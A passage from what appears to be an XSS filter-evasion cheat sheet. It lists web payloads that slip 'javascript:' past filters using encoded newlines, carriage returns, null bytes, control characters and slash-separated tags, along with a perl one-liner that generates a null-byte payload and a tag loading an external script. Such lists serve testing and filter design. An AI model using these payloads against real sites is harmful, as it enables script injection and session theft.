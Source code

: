 `<IMG SRC="jav&#x0A;ascript:alert('XSS');">`

## Embedded carriage return to break up XSS

(Note: with the above I am making these strings longer than they have to
be because the zeros could be omitted. Often I've seen filters that
assume the hex and dec encoding has to be two or three characters. The
real rule is 1-7 characters.):

`<IMG SRC="jav&#x0D;ascript:alert('XSS');">`

## Null breaks up JavaScript directive

Null chars also work as XSS vectors but not like above, you need to
inject them directly using something like Burp Proxy or use %00 in the
URL string or if you want to write your own injection tool you can
either use vim (^V^@ will produce a null) or the following program to
generate it into a text file. Okay, I lied again, older versions of
Opera (circa 7.11 on Windows) were vulnerable to one additional char 173
(the soft hypen control char). But the null char %00is much more useful
and helped me bypass certain real world filters with a variation on this
example:

`perl -e 'print "`<IMG SRC=java\0script:alert(\"XSS\")>`";' > out`

## Spaces and meta chars before the JavaScript in images for XSS

This is useful if the pattern match doesn't take into account spaces in
the word "javascript:" -which is correct since that won't render- and
makes the false assumption that you can't have a space between the quote
and the "javascript:" keyword. The actual reality is you can have any
char from 1-32 in decimal:

<IMG SRC=" &#14;  javascript:alert('XSS');">

## Non-alpha-non-digit XSS

The Firefox HTML parser assumes a non-alpha-non-digit is not valid after
an HTML keyword and therefor considers it to be a whitespace or
non-valid token after an HTML tag. The problem is that some XSS filters
assume that the tag they are looking for is broken up by whitespace. For
example "\<SCRIPT\\s" \!= "\<SCRIPT/XSS\\s":

`<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>`

Based on the same idea as above, however,expanded on it, using Rnake
fuzzer. The Gecko rendering engine allows for any character other than
letters, numbers or encapsulation chars (like quotes, angle brackets,
etc...) between the event handler and the equals sign, making it easier
to bypass cross site scripting blocks. Note that this also applies to
the grave accent char as seen here:

